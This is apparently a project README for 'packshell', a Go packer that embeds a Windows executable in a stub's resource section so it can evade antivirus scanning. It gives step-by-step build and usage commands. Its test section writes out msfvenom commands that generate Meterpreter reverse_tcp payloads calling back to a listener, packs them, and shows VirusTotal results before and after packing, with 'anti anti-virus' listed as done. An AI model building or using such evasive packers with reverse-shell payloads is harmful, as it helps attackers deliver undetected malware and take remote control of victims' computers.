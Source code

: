 # packshell
A tool create a new file using a custom shell and a source pe files

use PE .rsrc section

# Usage

1. download dependencies

```shell
go mod download
```

2. complie the shell.go use this command

```shell
go build -o shell.exe .\cmd\shell.go
```

3. complie the packer.go use this command

```shell
go build -o packer.exe .\cmd\packer.go
```

4. move your pe file which you want execute into this project's root directory

5. use this command to create new file which with a shell

```
.\packer <your pe file> <output file>
```

6. execute the output file



# Detail

![detail](./images/detail.jpg)

# Test

## logic test-msf exe

- use msfvenom create a test pe file

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.65.128 lport=9999 -f exe -o win_normal.exe
```

- msf create a listener

![msf](./images/msf.png)

- use our project packshell create a new file

```
go build .\cmd\shell.go
go build .\cmd\packer.go
packer.exe win_normal.exe win_pack.exe
```

- execute new file and msf get a session

![session](./images/session-exe.png)



## logic test-msf shellcode

- use msfvenom create a test shellcode

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.65.128 lport=9999 -f golang -o golang_exp.txt
```

- msf create a listener

  ![image-20230607182327184](./images/msf.png)

- use golang shellcode loader create a exe file
- use our project packshell create a new file

```
go build .\cmd\shell.go
go build .\cmd\packer.go
packer.exe win_sc_normal.exe win_sc_pack.exe
```

- execute new file and msf get a session

![image-20230607182557515](./images/session-sc.png)

## anti-virus test

### msf exe

- unpack file in virustotal

![unpack](./images/unpack-exe.png)

- packed file in virustotal

![image-20230608122753702](./images/packed-exe2.png)

### msf shellcode

- unpack file in virustotal

![image-20230607182947156](./images/unpack-sc.png)

- packed file in virustotal

![image-20230608122915029](./images/packed-sc2.png)

# TODO

- [x] anti anti-virus

